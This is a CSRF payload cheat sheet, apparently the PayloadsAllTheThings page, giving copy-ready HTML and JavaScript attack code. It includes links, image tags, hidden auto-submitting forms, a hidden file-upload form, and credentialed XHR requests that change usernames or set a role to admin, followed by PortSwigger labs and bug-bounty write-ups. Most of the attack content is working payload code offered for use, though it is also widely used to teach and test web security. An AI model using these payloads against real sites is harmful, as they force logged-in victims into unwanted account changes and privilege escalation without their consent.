 # Cross-Site Request Forgery

> Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP


## Summary

* [Tools](#tools)
* [Methodology](#methodology)
* [Payloads](#payloads)
    * [HTML GET - Requiring User Interaction](#html-get---requiring-user-interaction)
    * [HTML GET - No User Interaction)](#html-get---no-user-interaction)
    * [HTML POST - Requiring User Interaction](#html-post---requiring-user-interaction)
    * [HTML POST - AutoSubmit - No User Interaction](#html-post---autosubmit---no-user-interaction)
    * [HTML POST - multipart/form-data with file upload - Requiring User Interaction](#html-post---multipartform-data-with-file-upload---requiring-user-interaction)
    * [JSON GET - Simple Request](#json-get---simple-request)
    * [JSON POST - Simple Request](#json-post---simple-request)
    * [JSON POST - Complex Request](#json-post---complex-request)
* [Labs](#labs)
* [References](#references)


## Tools

* [XSRFProbe - The Prime Cross Site Request Forgery Audit and Exploitation Toolkit.](https://github.com/0xInfection/XSRFProbe)


## Methodology

![CSRF_cheatsheet](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Cross-Site%20Request%20Forgery/Images/CSRF-CheatSheet.png)

## Payloads

When you are logged in to a certain site, you typically have a session. The identifier of that session is stored in a cookie in your browser, and is sent with every request to that site. Even if some other site triggers a request, the cookie is sent along with the request and the request is handled as if the logged in user performed it.


### HTML GET - Requiring User Interaction

```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```


### HTML GET - No User Interaction

```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```


### HTML POST - Requiring User Interaction

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```


### HTML POST - AutoSubmit - No User Interaction

```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```


### HTML POST - multipart/form-data with file upload - Requiring User Interaction

```html
<script>
function launch(){
    const dT = new DataTransfer();
    const file = new File( [ "CSRF-filecontent" ], "CSRF-filename" );
    dT.items.add( file );
    document.xss[0].files = dT.files;

    document.xss.submit()
}
</script>

<form style="display: none" name="xss" method="post" action="<target>" enctype="multipart/form-data">
<input id="file" type="file" name="file"/>
<input type="submit" name="" value="" size="0" />
</form>
<button value="button" onclick="launch()">Submit Request</button>
```


### JSON GET - Simple Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```


### JSON POST - Simple Request

With XHR :

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
//application/json is not allowed in a simple request. text/plain is the default
xhr.setRequestHeader("Content-Type", "text/plain");
//You will probably want to also try one or both of these
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```

With autosubmit send form, which bypasses certain browser protections such as the Standard option of [Enhanced Tracking Protection](https://support.mozilla.org/en-US/kb/enhanced-tracking-protection-firefox-desktop?as=u&utm_source=inproduct#w_standard-enhanced-tracking-protection) in Firefox browser :

```html
<form id="CSRF_POC" action="www.example.com/api/setrole" enctype="text/plain" method="POST">
// this input will send : {"role":admin,"other":"="}
 <input type="hidden" name='{"role":admin, "other":"'  value='"}' />
</form>
<script>
 document.getElementById("CSRF_POC").submit();
</script>
```

### JSON POST - Complex Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```


## Labs

* [PortSwigger - CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)
* [PortSwigger - CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)
* [PortSwigger - CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present)
* [PortSwigger - CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)
* [PortSwigger - CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)
* [PortSwigger - CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)
* [PortSwigger - CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present)
* [PortSwigger - CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/lab-referer-validation-broken)


## References

- [Cross-Site Request Forgery Cheat Sheet - Alex Lauerman - April 3rd, 2016](https://trustfoundry.net/cross-site-request-forgery-cheat-sheet/)
- [Cross-Site Request Forgery (CSRF) - OWASP - Apr 19, 2024](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
- [Messenger.com CSRF that show you the steps when you check for CSRF - Jack Whitton - July 26, 2015](https://whitton.io/articles/messenger-site-wide-csrf/)
- [Paypal bug bounty: Updating the Paypal.me profile picture without consent (CSRF attack) - Florian Courtial - 19 July 2016](https://web.archive.org/web/20170607102958/https://hethical.io/paypal-bug-bounty-updating-the-paypal-me-profile-picture-without-consent-csrf-attack/)
- [Hacking PayPal Accounts with one click (Patched) - Yasser Ali - 2014/10/09](https://web.archive.org/web/20141203184956/http://yasserali.com/hacking-paypal-accounts-with-one-click/)
- [Add tweet to collection CSRF - Vijay Kumar (indoappsec) - November 21, 2015](https://hackerone.com/reports/100820)
- [Facebookmarketingdevelopers.com: Proxies, CSRF Quandry and API Fun - phwd - October 16, 2015](http://philippeharewood.com/facebookmarketingdevelopers-com-proxies-csrf-quandry-and-api-fun/)
- [How I Hacked Your Beats Account? Apple Bug Bounty - @aaditya_purani - 2016/07/20](https://aadityapurani.com/2016/07/20/how-i-hacked-your-beats-account-apple-bug-bounty/)
- [FORM POST JSON: JSON CSRF on POST Heartbeats API - Eugene Yakovchuk - July 2, 2017](https://hackerone.com/reports/245346)
- [Hacking Facebook accounts using CSRF in Oculus-Facebook integration - Josip Franjkovic - January 15th, 2018](https://www.josipfranjkovic.com/blog/hacking-facebook-oculus-integration-csrf)
- [Cross Site Request Forgery (CSRF) - Sjoerd Langkemper - Jan 9, 2019](http://www.sjoerdlangkemper.nl/2019/01/09/csrf/)
- [Cross-Site Request Forgery Attack - PwnFunction - 5 Apr. 2019](https://www.youtube.com/watch?v=eWEgUcHPle0)
- [Wiping Out CSRF - Joe Rozner - Oct 17, 2017](https://medium.com/@jrozner/wiping-out-csrf-ded97ae7e83f)
- [Bypass Referer Check Logic for CSRF - hahwul - Oct 11, 2019](https://www.hahwul.com/2019/10/11/bypass-referer-check-logic-for-csrf/)